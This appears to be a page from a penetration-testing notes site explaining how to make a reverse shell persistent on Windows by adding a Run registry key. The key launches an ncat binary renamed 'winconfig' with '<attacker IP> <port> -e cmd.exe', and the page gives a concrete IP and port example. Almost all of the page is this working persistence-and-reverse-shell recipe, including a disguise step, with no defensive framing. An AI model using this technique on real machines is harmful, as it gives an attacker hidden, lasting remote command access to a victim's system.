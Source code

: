 ```yaml
---
title: Create a Registry
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilegeescalation
---
```


# Create a Registry

Registries in the victim machine may be used to save a connection to the attacker machine.

### Regedit

```
Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Right-Button > New > String value

We name it exactly like the ncat.exe file (if we renamed it to winconfig, then we call this registry winconfig>

We edit the registry and we add the path to the executable file and some commands  in the Value data:

“C:\Windows/System32\winconfig.exe <attacker IP> <port> -e cmd.exe”

For instance: “C:\Windows/System32\winconfig.exe 192.168.1.50 5540 -e cmd.exe”
```

### Python script that add a binary to the Registry

See [Making your binary persistent](python/making-your-binary-persistent.md)
